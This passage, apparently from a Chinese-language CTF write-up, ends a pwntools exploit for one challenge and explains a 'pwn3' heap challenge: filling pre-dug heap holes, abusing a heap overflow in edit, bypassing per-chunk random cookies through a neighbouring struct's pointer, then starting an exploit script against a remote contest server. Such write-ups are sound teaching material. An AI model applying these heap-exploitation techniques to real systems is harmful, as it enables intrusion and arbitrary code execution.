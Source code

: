 ```python
cn.recvuntil('choose')
cn.sendline('2')
cn.recvuntil('length')
cn.sendline('48')
sleep(0.2)
cn.sendline(p64(0x0602D50)*6)



cn.interactive()

```


## pwn3

![](shanghaidaxuesheng_6b12d578de7406a04ac3a39eeeee1459.png)

一开始，出题人先在heap上挖了很多空，如果直接堆构造肯定会落在洞里。

所以考虑在构造之前先malloc一堆，把洞填了就行了。

在edit函数中有两个非常大方的堆溢出

![](shanghaidaxuesheng_e170d1de220fed97d40173b2c3e6ae64.png)


但是程序在每一个堆块的后面放了一个随机的rand_num做cookie，然后在edit和show的时候做检查。

看似能防止堆溢出其实不然。

因为它检查的逻辑是如果**要操作**的结构体的cookie有问题则退出。

所以我们先创建两个结构体，然后第一个结构体帮第二个结构体做修改，然后操作第二个结构体。

![](shanghaidaxuesheng_28bb7c4f98bbf5dff1ef609a169fba09.png)

结构体上有一个指针，通过溢出修改指针到bss段存储cookie的前面，就可以修改cookie或是读取cookie。（我选择修改

没了cookie，暴力堆溢出真的简单。

基本就是用结构体上的任意指针为所欲为。

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

local = 0

if local:
	cn = process('./heap')
	bin = ELF('./heap')
	libc = ELF('./libc_local.so')
else:
	cn = remote('106.75.8.58', 23238)
	bin = ELF('./heap')
	libc = ELF('./remote_libc.so')


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


def add(name,namelen,schname,schnamelen):
```